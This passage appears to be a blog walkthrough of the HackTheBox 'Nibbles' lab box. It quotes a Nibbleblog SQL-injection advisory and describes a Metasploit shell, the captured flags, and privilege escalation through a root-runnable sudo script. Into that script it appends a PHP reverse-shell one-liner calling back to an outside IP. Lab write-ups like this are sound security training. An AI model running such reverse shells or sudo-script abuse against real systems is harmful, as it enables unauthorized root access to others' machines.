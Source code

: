 Nibbleblog is prone to multiple SQL-injection vulnerabilities because the application fails to properly sanitize user-supplied input before using it in an SQL query.

A successful exploit may allow an attacker to compromise the application, access or modify data, or exploit vulnerabilities in the underlying database.

Nibbleblog 3.0 is affected; other versions may also be vulnerable.

http://www.example.com/index.php?page=[SQLi]
http://www.example.com/post.php?idpost=[SQLi]# [root:~/Desktop/nibbles]#</pre>
I cranked up Metasploit and ran the exploit with the following details and got a Metreperter shell:

<img class="alignnone size-full wp-image-104" src="http://offsecnewbie.com/wp-content/uploads/2018/05/metalogin.png" alt="metalogin" width="991" height="891" />

I navigated to the home directory and into nibbler's home directory to get the user.
<pre>meterpreter &gt; cat user.txt
b02ff32bb332deba49eeaed21152c8d8</pre>
Its always good to see what su access you have. What i've found in HTB is that it generally gives away what you have to modify and run to get root. Sure enough:
<pre>meterpreter &gt; shell
Process 22018 created.
Channel 1 created.
sudo -l
sudoMatching Defaults entries for nibbler on Nibbles:
 env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
 (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
: unable to resolve host Nibbles: Connection timed out</pre>
So I can run monitor.sh as root which will allow me to get a reverse root shell. I unzipped the personal zip folder and added this to the bottom of monitor.sh
<pre>sudo php -r '$sock=fsockopen("10.10.14.234",44444);exec("/bin/sh -i &lt;&amp;3 &gt;&amp;3 2&gt;&amp;3");'</pre>
I started a netcat listener on the 44444 port. After about 20 seconds I got a connection back.
<pre>[root:...ktop/nibbles/personal/stuff]# nc -lvp 44444
listening on [any] 44444 ...
10.10.10.75: inverse host lookup failed: Unknown host
connect to [10.10.14.234] from (UNKNOWN) [10.10.10.75] 50308
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# cat /root/root.txt
b6d745c0dfb6457c55591efc898ef88c
#</pre>
FIN

Conclusion

This was quite and easy box for me. Not long ago I had finished Bashed and remembered to take advantage of the sudo -l. I want to go back and redo this box before it retires and complete it without using metasploit.

